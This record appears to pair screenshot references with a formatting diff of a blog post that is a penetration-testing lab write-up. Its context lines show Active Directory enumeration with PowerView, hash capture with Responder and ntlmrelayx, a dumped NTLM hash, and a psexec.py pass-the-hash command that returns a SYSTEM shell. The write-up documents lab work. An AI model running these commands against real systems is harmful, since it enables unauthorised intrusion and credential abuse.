

Before and after one commit to braaaax/braaaax.github.io, a Jekyll site: the page built from _posts/2018-3-26-lky-labs.md, in a window 1280 px wide and 900 px high, scrolled down 9542 px. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
updated site

````diff
--- a/_posts/2018-3-26-lky-labs.md
+++ b/_posts/2018-3-26-lky-labs.md
@@ -148,18 +148,17 @@ In MSF:
 
 Either via empire or by importing the PowerView.ps1 module into your msf powershell_shell, we can enumere the domain. Let's take a look at the boxes in the domain.
 
-```
+
 ComputerName
-------------
-DC01
-WS03
-FS01
-MX01
-WEB01
-WS05
-RDS02
-SQL01
-```
+*  DC01
+*  WS03
+*  FS01
+*  MX01
+*  WEB01
+*  WS05
+*  RDS02
+*  SQL01
+
 
 
 Using Invoke-Sharefinder we discover a VPN to facilitate internal access to the interior subnet to avoid lots of proxies. From an interior IP We can use responder and ntlnrelayx to dump hashes and get sessions for users without knowing the password. Somthing like `Invoke-Inveigh` could be used externally, but I have had limited success.
@@ -194,6 +193,7 @@ Guest:501:aad3b435b51404eeaad3b435b51404ee:06a380cfedba265a9bcf51f2cffa40fa:::
 
 Next we want to put those hashes to use and get a shell as Administrator
 
+
 ```
 ./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e8bcd502fbbdcd9379305dca15f4854e administrator@10.8.14.14
 
@@ -212,7 +212,6 @@ Microsoft Windows [Version 6.3.9600]
 
 C:\Windows\system32>whoami
 nt authority\system
-
 
 ```
 
````
